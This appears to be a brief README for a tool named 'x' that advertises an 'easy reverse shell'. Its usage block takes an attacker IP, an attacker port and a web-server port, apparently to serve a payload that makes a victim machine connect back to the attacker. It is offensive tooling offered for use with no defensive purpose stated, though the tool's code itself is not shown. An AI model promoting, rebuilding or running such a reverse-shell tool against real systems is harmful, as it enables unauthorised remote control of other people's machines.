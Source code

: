 # x
Get an easy reverse shell
```[!] usage ./x -lhost <attacker_ip> -lport <attacker_port> -listen <http_port>
  -lhost string
        ip to send shell
  -listen string
        port that is used for this web server (default "8000")
  -lport string
        port to send shell
```